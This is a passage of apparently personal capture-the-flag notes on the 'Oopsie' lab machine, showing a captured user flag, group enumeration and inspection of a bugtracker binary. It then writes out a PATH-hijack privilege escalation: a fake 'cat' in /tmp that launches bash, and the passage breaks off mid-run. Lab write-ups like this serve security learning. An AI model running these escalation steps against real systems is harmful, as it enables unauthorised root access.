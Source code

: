 	- ip: `127.0.0.1 (10.10.10.28)`
6. Found user flag at /home/robert/user.txt
	```
	$ cd /home/robert
	$ cat user.txt
	f2c74ee8db7983851ab2a96a44eb7981
	```
	![[Pasted image 20210817111619.png]]
	- user flag: `f2c74ee8db7983851ab2a96a44eb7981`
7. Got groups robert and www-data are a part of
	```
	robert@oopsie:/var/www/html/cdn-cgi/login$ cat /etc/group | grep 'robert\|www-data'
	www-data:x:33:
	robert:x:1000:lxd
	bugtracker:x:1001:robert
	```
	![[Pasted image 20210817112632.png]]
	- robert's groups: `robert, bugtracker`
	- www-data's groups: `www-data`
8. Discovered bugtacker application uses local version of cat
	```
	robert@oopsie:/var/www/html/cdn-cgi/login$ strings /usr/bin/bugtracker | grep -B 4 -A 4 "Provide Bug ID"
	[]A\A]A^A_
	------------------
	: EV Bug Tracker :
	------------------
	Provide Bug ID:
	---------------
	cat /root/reports/
	;*3$"
	GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
	```
	![[Pasted image 20210817113146.png]]
	- This means we can create out own version of cat
9. Created a malicious 'cat' program which calls bash
	```
	export PATH=/tmp/twof:$PATH
	echo '/bin/bash' > /tmp/twof/cat
	chmod +x /tmp/twof/cat
	
	robert@oopsie:/tmp/twof$ bugtracker

	------------------
	: EV Bug Tracker :
	------------------

	Provide Bug ID: 1
	---------------
